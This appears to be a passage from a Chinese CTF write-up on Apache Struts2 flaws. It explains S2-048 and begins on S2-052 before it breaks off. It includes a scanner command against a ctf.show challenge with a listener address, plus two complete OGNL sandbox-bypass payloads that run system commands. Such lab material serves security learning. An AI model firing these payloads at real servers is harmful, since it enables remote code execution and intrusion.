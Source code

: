 ```py
```

#### S2-048

漏洞原理

> 漏洞主要问题出在struts2-struts1-plugin这个插件包上。这个库的主要作用就是将struts1的action封装成struts2的action以便它能在strut2上运行使用 而由于struts2-struts1-plugin 包中的 “Struts1Action.java” 中的 execute 函数可以调用 getText() 函数，这个函数刚好又能执行OGNL表达式，同时这个 getText() 的 参数输入点，又可以被用户直接进行控制，如果这个点被恶意攻击者所控制，就可以构造恶意执行代码，从而实现一个RCE攻击
>
> **影响版本**: 2.0.0 - 2.3.32

工具解`python3 Struts2Scan.py -u http://a6f75f2d-962c-4e6e-bee6-06b301aa3f35.challenge.ctf.show/S2-048/integration/saveGangster.action -n S2-048 -d "name={exp}&age=11111&description=aaaa"  -lr 1.14.127.40:9999`

点击struts 1 lntegration

![image-20211001224409232](https://p3-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/735014b922a0440d8e45bbd3a971eee2~tplv-k3u1fbpfcp-zoom-in-crop-mark:4536:0:0:0.awebp)

以第一个参数为攻击点，在其执行OGNL语法，${10-7}，点击submit

![image-20211001224508795](https://p3-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/3a5cc75160044033b414eb5606ab8e47~tplv-k3u1fbpfcp-zoom-in-crop-mark:4536:0:0:0.awebp)

![image-20211001224600729](https://p3-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/bda07dae555d4dca860aa9bbaf2419ce~tplv-k3u1fbpfcp-zoom-in-crop-mark:4536:0:0:0.awebp)

借用S2-045的沙盒绕过方法，改了一个POC。将如下POC填入表单`Gengster Name`中，提交即可直接回显命令执行的结果

```java
%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#q=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream())).(#q)}
```

![image-20211001224916569](https://p3-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/03cbce5fb07a45eaaaafe08d0d737058~tplv-k3u1fbpfcp-zoom-in-crop-mark:4536:0:0:0.awebp)

也可以使用s2-045poc，抓包修改content-type

```java
%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='id').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
```

#### S2-052

> Struts2-Rest-Plugin是让Struts2能够实现Restful API的一个插件，其根据Content-Type或URI扩展名来判断用户传入的数据包类型，有如下映射表：
>
> | 扩展名 | Content-Type | 解析方法 |
> | --- | --- | --- |
> | xml | application/xml | xstream |
> | json | application/json | jsonlib或jackson(可选) |
> | xhtml | application/xhtml+xml | 无 |
> | 无 | application/x-www-form-urlencoded | 无 |
> | 无 | multipart/form-data | 无 |
>
> jsonlib无法引入任意对象，而xstream在默认情况下是可以引入任意对象的（针对1.5.x以前的版本），方法就是直接通过xml的tag name指定需要实例化的类名：
>
> ```xml
> <classname></classname>
> //或者